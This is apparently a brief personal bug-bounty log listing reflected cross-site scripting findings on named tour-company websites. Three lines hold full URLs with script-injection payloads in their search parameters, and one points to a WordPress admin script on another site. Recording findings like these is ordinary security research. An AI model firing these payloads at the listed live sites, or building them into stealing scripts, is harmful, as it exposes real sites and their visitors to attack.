# bug-bounty

# my first bug bounty is a XSS at https://www.egypttoursportal.com/search-tours/?s=%22%3E%3Cscript%3Ealert(%22hello%22)%3C/script%3E  >>  8/1/2025
# my secound bug bounty is a XSS at search https://www.luxorandaswan.com/search/?keyword=%3Cscript%3Ealert(%22hello+world%22)%3C/script%3E >> 9/1/2025
# Memphis >> https://www.memphistours.com/Search?q=%3E%3Cscript%3Ealert(%22hello%20world%22)%3C/script%3E
# saudiarabiatours.net >> https://saudiarabiatours.net/wp-admin/js/customize-controls.js
